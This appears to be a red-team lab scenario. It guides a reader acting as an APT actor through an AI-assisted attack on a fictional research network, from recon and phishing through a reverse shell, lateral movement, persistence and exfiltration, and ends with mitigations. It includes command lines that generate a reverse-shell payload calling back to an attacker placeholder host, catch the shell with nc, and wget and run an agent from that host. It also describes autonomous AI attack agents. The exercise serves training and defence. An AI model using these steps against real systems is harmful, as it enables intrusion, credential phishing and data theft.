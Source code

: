 # Operation Neural Ghost

Objective: Act as an APT actor (`APT-99`, "Deep Vector") to leverage AI and machine learning for reconnaissance, vulnerability discovery, phishing, and adaptive command-and-control, specifically targeting MycoSec's Linux-based research network.

Scenario: [MycoSec](entity.md)'s "Cortex" lab network uses standard security tools (firewalls, IDS, basic SIEM). Your goal is to use AI to bypass these defenses, find novel attack paths, and maintain stealthy persistence.

## Phase 1: AI-Assisted Reconnaissance & OSINT

Goal: Use AI to automate target discovery and vulnerability mapping.

Instructions:

1.  Deploy an AI recon tool like [reconGPT](https://aichatonline.org/gpts-ZxX1wpCX-reconGPT) or [DarkTrace](https://www.darktrace.com/products/detect) or your own `darktrace_ai` script:
    *   On your attacker VM, launch the AI-powered reconnaissance tool.
    *   Command: `python3 darktrace_ai.py --target-domain myco.sec --output scan_results.json`
    *   This tool uses NLP to scrape public sources (GitHub, social media) for employee names, tech stacks, and potential leaks.

2.  Analyse results with AI:
    *   The tool generates a report. Use an AI summariser to extract key insights, or cook your own `ai_analyser` script.
    *   Command: `python3 ai_analyser.py --input scan_results.json --query "top 3 potential vulnerabilities"`
    *   Finding: The AI identifies:
        *   A developer mentioning a "test API" on an internal subdomain: `api-dev.myco.sec:8080`
        *   A old password pattern used in testing environments: `MycoDev[Year]!`
        *   The use of `Jenkins` for CI/CD at `jenkins.myco.sec`

3.  Probe targets with AI-generated scans:
    *   Use an AI tool to generate polymorphic network scans that evade signature-based IDS, or roll your own `ai_scanner`.
    *   Command: `python3 ai_scanner.py --target api-dev.myco.sec --stealth-mode high`
    *   Finding: The scan reveals the API is running a vulnerable version of `FastAPI` with a known RCE (CVE-2023-xxxx).

Checkpoint: AI has identified a high-value target and a specific vulnerability.

## Phase 2: AI-Powered Social Engineering

Goal: Use a Generative AI to create a highly convincing phishing campaign.

Instructions:

1.  Generate phishing lure:
    *   Use a [for phishing tailored LLM](https://techmaniacs.com/2025/06/17/llm-powered-phishing-how-ai-writes-convincing-lures-at-scale/) and name it `phishgpt.py` for example, or develop a bot like [spearbot](https://www.sciencedirect.com/science/article/abs/pii/S1566253525002490) to craft a phishing email.
    *   Command: `python3 phishgpt.py --template "internal_alert" --target-role "developer" --output phishing_email.html`
    *   The AI generates an email pretending to be from "MycoSec IT Security" urging the developer to reset their password due to a false incident on the `api-dev` server.

2.  Deploy credential harvesting:
    *   AI can also generate a flawless clone of the MycoSec SSO login portal. Use, for example, [Phishing-as-a-Service (PhaaS) Platforms](https://abnormal.ai/blog/how-credential-harvesting-works), or [Evilginx2](https://sherlockedsecurity.com/credential-harvesting-simulation/), or go make it so yourself.
    *   Command: `deploy_phish_page --url https://myco-sec-login[.]xyz`
    *   Send the phishing email to targets identified in Phase 1.

3.  AI-Powered interaction:
    *   Use an [AI chatbot](https://www.eccu.edu/blog/how-ai-powered-chatbots-are-becoming-cybersecurity-threats/) to handle victim interactions on the phishing site, answering questions to increase legitimacy.
    *   Command: `python3 ai_chatbot.py --port 8443 --persona "IT_Helpdesk"`

Checkpoint: AI has automated the creation and deployment of a highly convincing phishing campaign.

## Phase 3: AI-Enhanced Initial Access

Goal: Use AI to automate exploitation and initial payload delivery.

Instructions:

1.  [Generate polymorphic payload](https://www.hyas.com/blog/blackmamba-using-ai-to-generate-polymorphic-malware):
    *   Make and/or use an AI tool such as [BlackMamba](https://github.com/loseys/BlackMamba) to create a reverse shell payload that evades static AV analysis by mutating its code signature each time it's generated.
    *   Command: `python3 ai_payload_gen.py --payload linux_reverse_shell --lhost <ATTACKER_IP> --lport 4444 --output payload.py`
    *   Verification: The generated `payload.py` has a unique hash that does not appear on any virus scanning platform.

2.  Exploit the API automatically:
    *   Use an AI exploitation framework like [ReX (Exploit Generation Framework)](https://github.com/angr/rex) or wait until [Agentic AI Attack Framework (Unit 42)](https://www.paloaltonetworks.com/blog/2025/05/unit-42-develops-agentic-ai-attack-framework/) becomes available, to automatically weaponise the CVE against the `api-dev` server.
    *   Command: `python3 ai_exploit_framework.py --target http://api-dev.myco.sec:8080 --cve CVE-2023-xxxx --payload payload.py`
    *   Success: The framework successfully exploits the vulnerability and executes the payload.

3.  Catch the shell:
    *   On your attacker VM, receive the reverse shell connection.
    *   Command: `nc -nvlp 4444`
    *   Verification: You have a shell on the `api-dev` server.

Checkpoint: AI has successfully exploited the target and established a foothold.

## Phase 4: Autonomous Lateral Movement

Goal: Use an AI agent to autonomously explore the network and pivot.

Instructions:

1.  Deploy AI lateral movement agent:
    *   [DeepExplorer AI](https://github.com/ai4ce/DeepExplorer) is not explicitly a C2 platform but rather an AI agent designed to automate lateral movement techniques. If integrated with C2 functionalities (command execution, data exfiltration), it could become part of a broader C2 framework similar to [Redemption C2](https://medium.com/@letmedaydream.sparrow/ai-c2-framework-redemption-f79be8d935dd). 
    *   Upload and execute the `DeepExplorer` AI agent on the compromised host. Command (on target): `wget http://<ATTACKER_IP>/DeepExplorer.py && python3 DeepExplorer.py --mode autonomous`
    *   This agent can automatically:
        *   Map the local network
        *   Sniff credentials from memory
        *   Attempt to SSH to other machines using stolen keys or credentials
        *   Identify misconfigured services

2.  Review AI findings:
    *   The agent reports its findings to your C2 server. Check the dashboard.
    *   Finding: The AI has discovered:
        *   SSH private key in a world-readable `/opt/scripts/` directory on another host (`data-server-03`).
        *   A `sudo` misconfiguration on `data-server-03` allowing the `devuser` to run `vim` as root.

3.  AI-selected pivot:
    *   The AI recommends pivoting to `data-server-03` as it is the most critical and vulnerable target. It automatically uses the stolen key to establish a SSH session.
    *   Verification: The AI agent reports: `[+] Successfully pivoted to host: data-server-03`

Checkpoint: An AI agent has autonomously moved laterally to a critical server.

## Phase 5: Adaptive command & control

Goal: Use AI to maintain stealthy C2 communication that adapts to network conditions.

Instructions:

1.  AI-Powered C2 channel:
    *   The `DeepExplorer` agent establishes a C2 channel that uses AI to mimic legitimate network traffic (e.g., mimicking cloud provider API calls or DNS lookups).
    *   Command: The agent auto-selects the best exfiltration method based on network egress rules.

2.  Exfiltrate data with AI:
    *   The AI identifies and exfiltrates target files from `data-server-03`. It encrypts and chunks the data, embedding it in what looks like normal HTTP traffic.
    *   Finding: The AI reports: `[+] Exfiltration of /opt/research/project_cobalt.tar.gz complete.`

3.  AI-Driven persistence:
    *   The AI agent chooses the best persistence mechanism based on the environment.
    *   Action: It creates a systemd service on `data-server-03` that uses a domain generation algorithm (DGA) to call home, making it hard to blacklist.

## Final Report

The AI system provides a full summary report. Document the key findings:
1.  Initial Vector: AI-driven recon found a vulnerable API endpoint and developer credentials.
2.  Lateral Movement Path: AI autonomously moved from `api-dev` to `data-server-03` via a stolen SSH key.
3.  Privilege Escalation: The AI identified and exploited a `sudo` misconfiguration on the final target.
4.  Exfiltration Method: AI chose DNS tunneling for C2 and exfiltration to avoid triggering firewall alerts.

## Mitigations

1.  Behavioural analysis: Deploy EDR/NDR that uses its own AI to detect anomalous process chains and network flows, not just signatures.
2.  Zero Trust: Implement strict network segmentation and application allow-listing to limit lateral movement.
3.  AI-Powered defence: Use defensive AI (like Darktrace or Vectra) to detect the low-and-slow, polymorphic network traffic generated by the attack AI.
4.  User training: Conduct regular phishing exercises focused on identifying AI-generated content.
